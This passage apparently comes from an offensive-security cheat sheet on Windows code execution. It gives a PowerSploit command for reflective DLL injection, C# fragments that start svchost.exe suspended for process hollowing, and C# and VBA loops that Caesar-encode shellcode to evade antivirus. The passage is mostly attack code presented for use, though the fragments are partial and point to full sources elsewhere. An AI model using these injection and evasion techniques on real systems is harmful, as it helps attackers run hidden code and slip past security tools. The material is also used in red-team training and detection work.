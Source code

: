 #### Reflective DLL Process Injection

Load unmanaged DLL into remote process *reflectively*.

##### Using Invoke-ReflectivePEInjection.ps1

[Source](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)

```
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

#### Process Hollowing

Create suspended process to inject into.

[Full Source](../src/csharp/Hollow.cs)

```
STARTUPINFO si = new STARTUPINFO();
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero, IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);

PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
uint tmp = 0;
IntPtr hProcess = pi.hProcess;
ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);
IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);
```

### AV Evasion

#### Caesar Encrypted Shellcode

Writing a custom shellcode runner that utilizes Caesar encoded shellcode.

##### C#

[Full Source](../src/csharp/LikesEncoder.cs)

```
byte[] encoded = new byte[buf.Length];

for (int i = 0; i < buf.Length; i++)
{
    encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
}
```

#### VBA

```
For i = 0 To UBound(buf)
  buf(i) = buf(i) - 2
Next i
```
